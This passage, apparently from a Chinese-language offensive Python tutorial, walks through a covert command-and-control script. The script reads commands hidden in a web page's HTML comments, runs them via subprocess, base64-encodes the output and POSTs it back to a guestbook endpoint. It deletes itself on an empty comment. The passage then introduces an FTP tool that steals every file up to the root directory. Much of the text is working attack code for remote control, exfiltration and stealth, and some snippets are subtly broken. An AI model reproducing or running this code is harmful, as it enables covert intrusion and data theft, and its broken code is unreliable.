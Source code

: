 由于此脚本具有内置的自删除方法，我们可以通过以下循环将其设置为永远运行：

```py
while 1:
```

我们请求检查预配置页面上是否有任何评论。如果有的话，我们会把它们列在一个列表中。我们使用非常基本的`regex`来执行此检查：

```py
  req = requests.get("http://127.0.0.1")
  comments = re.findall('<!--(.*)-->',req.text)
```

我们要做的第一件事是检查是否有空评论。这对脚本来说意味着它应该删除自己，这是一种非常重要的不干涉 C2 脚本的机制。如果希望脚本删除自身，只需在页面上留下一条空注释。脚本通过查找自己的名称并删除该名称来删除自身：

```py
for comment in comments:
    if comment = " ":
      os.delete(__file__)
```

如果注释不是空的，我们将尝试使用`subprocess`命令将其传递给系统。重要的是你要使用。`split()`在命令上说明`subprocess`如何处理多部分命令。我们使用`.check_output`将命令直接给出的任何输出返回给我们指定的变量：

```py
else:
      try:
        response = subprocess.check_output(comment.split())
```

如果命令失败，我们将响应值设置为`command failed`：

```py
      except:
        response = "command fail"
```

我们获取这个`response`变量，并将其分配给一个与字典中的 PHP 脚本相匹配的键。在这种情况下，字段名为`comment`，因此我们将输出分配给注释。我们以输出为基础，以考虑任何随机变量，例如可能干扰脚本的空格或代码：

```py
data={"comment":(''.join(response)).encode("base64")}
```

现在已经分配了数据，我们以`POST`请求将其发送到预配置的服务器，并等待`30`秒再次检查注释中的进一步说明：

```py
newreq = requests.post("http://127.0.0.1/addguestbook.php", data=data)
  time.sleep(30)
```

# 创建 FTP C2

这个脚本是一个快速而肮脏的文件盗窃工具。它沿着目录直线运行，捕捉它接触到的所有东西。然后将它们导出到指向的`FTP`目录。在可以删除文件并希望快速获取服务器内容的情况下，这是理想的起点。

我们将创建一个连接到 FTP 的脚本，获取当前目录中的文件，并将它们导出到 FTP。然后跳转到下一个目录并重复。当它遇到两个相同的目录列表时（即，它已到达根目录），它将停止。

## 开始
